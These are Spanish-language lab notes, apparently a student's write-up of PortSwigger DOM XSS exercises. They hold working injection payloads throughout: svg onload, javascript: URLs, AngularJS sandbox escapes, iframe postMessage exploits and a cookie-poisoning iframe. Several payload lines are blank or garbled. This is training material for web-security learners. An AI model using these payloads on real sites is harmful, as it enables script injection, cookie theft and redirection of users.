


# DOM XSS Laboratories


## Lab: DOM XSS in document.write sink using source location.search

This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.

To solve this lab, perform a cross-site scripting attack that calls the alert function.

```js
"><svg onload=alert()><"
```

## Lab: DOM XSS in document.write sink using source location.search inside a select element


This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search which you can control using the website URL. The data is enclosed within a select element.

To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the alert function.
```js
element.innerHTML='...  ...'
```
1. Dom invader nos detecta un problema en el dom


2. probamos escribir directamente el script , al no funcionar vamos al siguiente paso.
3. Buscamos el código, vemos que está dentro de un select
4. 


4. buscamos los parámetros que necesita
   
   

5. Si pongo directamente no funciona, hay que ir cerrando etiquetas

 


```html
product?productId=1&storeId="></select>
```

## Lab: DOM XSS in innerHTML sink using source location.search

This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.

To solve this lab, perform a cross-site scripting attack that calls the alert function.


El dom invader nos avisa que hay una vulnerabilidad


En esta sección puedo directamente poner el script. Lo que hacemos es llamar a una imagen la cual va a dar error al estar src=1 y luego cuando de el error ejecuta una acción.


## Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's $ selector function to find an anchor element, and changes its href attribute using data from location.search.

To solve this lab, make the "back" link alert document.cookie.


Nos quedamos con el attribute


Recordamos los apuntes

```js
?returnUrl=javascript:alert(document.domain)
```
Lo añadimos a la url


## Lab: DOM XSS in jQuery selector sink using a hashchange event

This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's $() selector function to auto-scroll to a given post, whose title is passed via the location.hash property.

To solve the lab, deliver an exploit to the victim that calls the print() function in their browser.

Exploramos la web. Vemos que tiene un exploit server y además una vulnerabilidad en el dom.


Recordamos los apuntes

Vemos que tiene una vulnearbilidad del tipo $() selector


```js

$(window).on('hashchange', function() {
	var element = $(location.hash);
	element[0].scrollIntoView();
});

Poner...

<iframe src="https://vulnerable-website.com#" onload="this.src+=''">
```
Añadimos en el body de nuestro servidor exploit este código y ponemos la dirección de nuestro web que queremos explotar (no la del servidor exploit) Con esto podremos observar en nuestra pantalla cosas. Además en vez del alert el ejercicio pide un print()
```js
<iframe src="https://vulnerable-website.com#" onload="this.src+=''"></iframe>
```


Lo mandamos


## Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

This lab contains a DOM-based cross-site scripting vulnerability in a AngularJS expression within the search functionality.

AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the ng-app attribute (also known as an AngularJS directive). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces. This technique is useful when angle brackets are being encoded.

To solve this lab, perform a cross-site scripting attack that executes an AngularJS expression and calls the alert function.


Comprobamos que está dentro de un ng-algo


>Creía que poniendo únicamente {{alert()}} funcionaría pero no

He buscado en google alert angular xss


Por lo que probaré

{{constructor.constructor('alert(1)')()}}


## Lab: Reflected DOM XSS

This lab demonstrates a reflected DOM vulnerability. Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.

To solve this lab, create an injection that calls the alert() function.


Intento cerrar las comillas cargar el javascript  y comentar pero parece que no. Además he visto que no se puede comentar en los json

" alert(1)}//


Aquí lo interesante es 
  1. nos está escapando automáticamente el "

Si ponemos un \delante de las comillas nos lo va a escapar también

Voy a intentar
```
\" alert(1)}//
```


Si vemos ahora nos lo ha escapado. Abajo aparece el espacio como un + por lo que en vez de espacio pondré un + en el search
```
\"+alert(1)}//
```
Y me lo ejecuta


## Lab: Stored DOM XSS

This lab demonstrates a stored DOM vulnerability in the blog comment functionality. To solve this lab, exploit this vulnerability to call the alert() function.


Entiendo que el comentario va donde el exploit por lo que hay que cerrarlo de alguna forma para que lance el alert.

Vimos antes que el alert stored se hace con
```
element.innerHTML='...  ...'


```

Si lo pongo directamente en la url me dice que la id no es válida

Si lo pongo dentro del comentario desaparece totalmente... pienso que puede estar borrando las cadenas. Voy a probar ponerlo dos veces

```html

```

Perfecto funciona, pero podría haber probado varias XD


## Lab: DOM-based open redirection

This lab contains a DOM-based open-redirection vulnerability. To solve this lab, exploit this vulnerability and redirect the victim to the exploit server.


En el botón de back tiene esto


```html
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```
Si vemos en el botón tiene que cuando le des a click va a ejecutar una redirección. El parámetro url lo podemos añadir a la url directamente. 

Realmente me deja hasta ponerlo como url del usuario y no se porque no me soluciona el ejercicio pero bueno hacemos esto.


```bash
GET /post?postId=8&url=https://exploit-0ade009704032a92c098ffbd012a00f9.web-security-academy.net/exploit
```


## Lab: DOM XSS using web messages

This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the print() function to be called.

Mapeando

página principal 3 xss

```html
<!--Aparece un error al principio-->


 <!-- Ads to be inserted here -->
                    <div id='ads'>
                    </div>
                    <script>
                        window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                        })
                    </script>
```

No aparece nada más a simple vista

Este tipo de ataques pueden ser por pishing por lo que iremos al exploit

Según los apuntes

```html
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">

<iframe src="https://0a1a002203f1e380c0b1448100d800f1.web-security-academy.net/" onload="this.contentWindow.postMessage('print()','*')">

```


Lo he lanzado y veo el iframe por lo cual está funcionando... pero creo que habrá que obligar al error.

Utilizamos lo títpico 
```html


<iframe src="https://0a1a002203f1e380c0b1448100d800f1.web-security-academy.net/" onload="this.contentWindow.postMessage('','*')">
```
Ahora si me lo está lanzando


Se lo mandamos a la victima


## Lab: DOM XSS using web messages and a JavaScript URL

This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.

- usar el redirection
- usar javascript

Nada más entrar me salta el chivato


Aún así seguimos navegando


```js
<script>
                        window.addEventListener('message', function(e) {
                            var url = e.data;
                            if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                                location.href = url;
                            }
                        }, false);
                    </script>
```

```js
//Volvemos a usar nuestra base y cambiamos nuestro datos y como queremos ejecutarlo

<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">

// según los apuntes dice que podemos ejecutar algo así como javascript:lo que queremos.

<iframe src="https://exploit-0a9000100450093cc08a6661012f004a.web-security-academy.net/exploit" onload="this.contentWindow.postMessage('javascript:print()','*')">
```
```js
// Ahora tenemos que lanzar el error. Según hemos visto que para que haga el location necesita un http o https... pero si es válido nos lo va a redireccionar a donde pongamos en vez de imprimir. Lo que hacemos es añadirlo y comentarlo.

<iframe src="https://exploit-0a9000100450093cc08a6661012f004a.web-security-academy.net/exploit" onload="this.contentWindow.postMessage('javascript:print()//https','*')">
```
Lo mando pero no ejecuta nada


Vuelvo a mirar el código y es que hay que poner https:
```js
<iframe src="https://exploit-0a9000100450093cc08a6661012f004a.web-security-academy.net/exploit" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">
```


:(  ⛔️⛔️⛔️⛔️ Que no se esté viendo nada en el fondo también es otro síntoma de que algo está mal

Llegados a este punto se me ocurre que o falta detrás del print() un ; o probar con el http: sin ser https

```js
<iframe src="https://exploit-0a9000100450093cc08a6661012f004a.web-security-academy.net/exploit" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```
Me acabo de dar cuenta que es posible que la url sea la de mi sitio. Pero no entiendo porque aunque esté llamando a exploit no me hace el print...

```js
<iframe src="https://0a11000d04dc095fc0f3668200500090.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```



⛔️⛔️⛔️⛔️ Importante

> Es bastante importante saber lo que se hace porque fallos de sintaxis etc pueden pasar, pero si sabes que tenía que hacer al final se consigue.


## Lab: DOM XSS using web messages and JSON.parse

This lab uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.

Empezamos con el mapeado


```js
   <script>
                        window.addEventListener('message', function(e) {
                            var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
                            document.body.appendChild(iframe);
                            try {
                                d = JSON.parse(e.data);
                            } catch(e) {
                                return;
                            }
                            switch(d.type) {
                                case "page-load":
                                    ACMEplayer.element.scrollIntoView();
                                    break;
                                case "load-channel":
                                    ACMEplayer.element.src = d.url;
                                    break;
                                case "player-height-changed":
                                    ACMEplayer.element.style.width = d.width + "px";
                                    ACMEplayer.element.style.height = d.height + "px";
                                    break;
                            }

```

Realmente he estado mirando , intentando enviar mensajes por burp repeater pero como que no le veo una solución. 


Tengo claro que la web escucha con el addevenlistener

Tengo claro que que tiene que ser el load-channel porque asigna una url. Esa url siguiendo los apuntes y laboratorios anteriores tiene que ser javascript:print() para que se ejecute.

Tengo claro que tengo que enviarlo por el exploit server

Tengo claro que tengo que hacer qu eentre en el load-chanel y para eso tengo que enviar un json en el mensaje.

Tambien tengo claro que hay que usar
```html
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">
```
Más o menos tengo claro que a la hora de poner los " va a dar problemas por lo que tendré que escaparlo.

No tengo muy claro como añado el src del iframe. Es obvio que a acmeplayer.element.src= d.url es una url que está en el atributo del objeto d.

Realmente creo que tengo la opción de crear en json un d.url=url que será el print, o url=url que será el print...

Voy a probar ambos para ver que tal

```html
<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">
```

Mirando en el dom me aparece 


Voy a probar añadindo url o d.url por si pasa algo,pero lo haré con el channel, después de varios experimentos desisto y me pongo con lo que quería hacer antes.


Haciendo las sustituciones que dije quedaría así con el antes del " . Parece que está bien escrito voy a probar

He borrado varios intentos fallidos y he dejado solo el final. Solo tener en cuenta.

He cambiado y dentro del onload he sustituido el " por un '. Y las ' que había dentro del postmessage las he sustituido por " . Básicamente un truco desde la unversidad. Eso si me quedó claro . Importante que se cambia a todo.

>Por otra parte mucho cuidado al tener tantas comillas y barras inclinadas que a veces se pasan cosas tan tontas como que con las prisas puse : en vez de , entre los elementos del json y por consiguiente en el siguiente entre url y el javascript puse un =.... fallos muy muy tontos que si lo hubiese escrito bien antes de empezar a escapar me hubiese dado cuenta rápidamente.


```html
<iframe src='https://0a4500b7041835dec0e1867c00f20090.web-security-academy.net/' onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```


# DOM-based cookie manipulation

## Lab: DOM-based cookie manipulation

This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause XSS on a different page and call the print() function. You will need to use the exploit server to direct the victim to the correct pages.

- call print()
- using exploit server


```html
 document.cookie = 'cookieName='+location.hash.slice(1);
```


```js
 script>
     document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
 </script>
```       
En ver el botón "último producto visto" Guarda la cookie con la dirección 

Mi primera opción realmente sería poner un ```&'><script>print()</script>```
Con esto estaríamos haciendo el error dom que vimos antes.

Ahora habría que enviarlo nuestra victima.


Voy a intentar poner en un iframe y ejecutarlo en mi máquina.

```html
<iframe src="https://0a1e00b703b229c6c0904786003200ce.web-security-academy.net/product?productId=1&'><script>print()</script>">
```
He tenido que sustituir el 1' por 1" porque sino no funcionaba, pero ya lo veo en mi exploit cuando lo hago contra mi
```html
<iframe src="https://0a1e00b703b229c6c0904786003200ce.web-security-academy.net/product?productId=1&'><script>print()</script>">
```


Vale, con esta opción consguimos guardar en la cookie pero hasta que el usuario no ejecuta el enlace de lastviewarticle... no se lanza es el script por lo que tendríamos que forzarlo.

Se me ocurre decir que si no estás en la pagina de producto que vayas. Vemos el objeto por ejemplo bounty dentro de windows. que su propiedad src sea mi web objetivo.


```html
 <iframe src="https://0a1e00b703b229c6c0904786003200ce.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="location='https://0a1e00b703b229c6c0904786003200ce.web-security-academy.net/product?productId=1'">
 ```

 Realmente está funcionandome por lo menos a mi directamente... pienso que le debería de funcionar a la víctima... 

Voy a ver la solución porque no quiero perder más tiempo.

```html
<iframe src="https://your-lab-id.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://your-lab-id.web-security-academy.net';window.x=1;">
```

🖍La fuente original de ⏩ iframe coincide con la URL de una de las páginas del producto, excepto que se agregó una carga útil de JavaScript al final. 

Cuando iframe se carga por primera vez, el navegador abre temporalmente la URL maliciosa, que luego se guarda como el valor de la lastViewedProductcookie.

El controlador de eventos ⏩ onload se asegura de que la víctima sea redirigida inmediatamente a la página de inicio, sin saber que esta manipulación alguna vez tuvo lugar. Si bien el navegador de la víctima tiene guardada la cookie envenenada, cargar la página de inicio hará que se ejecute la carga útil.

```html
<iframe src="https://0a1e00b703b229c6c0904786003200ce.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0a1e00b703b229c6c0904786003200ce.web-security-academy.net/product?productId=1';window.x=1;">
```

